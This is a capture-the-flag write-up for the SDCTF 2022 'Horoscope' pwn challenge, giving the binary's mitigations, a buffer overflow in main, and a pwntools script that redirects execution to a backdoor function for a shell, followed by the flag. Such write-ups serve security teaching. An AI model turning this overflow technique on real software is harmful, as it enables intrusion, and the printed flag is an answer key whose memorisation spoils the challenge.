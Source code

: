 ```yaml
---
title: "[Pwn] Horoscope [SDCTF 2022]"
date: 2022-05-09 18:51:00
---
```


# 0x0 Introduction

Easy

This program will predict your future!

Connect
nc horoscope.sdc.tf 1337

By green beans

files: [horoscope](horoscope)

# 0x1 Mitigation

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

# 0x2 Vulnerability

binary have a `/bin/sh` backdoor in function `sym.test`.

`main` has a buffer overflow vulnerbility, we can change rip of main to `sym.test` and get shell.

# 0x3 Exploit

```
#!/usr/bin/env python3

from pwn import *

exe = ELF("./horoscope")

context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("horoscope.sdc.tf",1337)

    return r

io = conn()
if args.R2:
    input("asd")
io.sendlineafter(b"own horoscope\n",flat({
    0:b"01/01/2001/1234\x00",
    0x30+8:0x0040095f
}))
io.interactive()
```

# 0x4 Flag

sdctf{S33ms_y0ur_h0rO5c0p3_W4s_g00d_1oD4y}
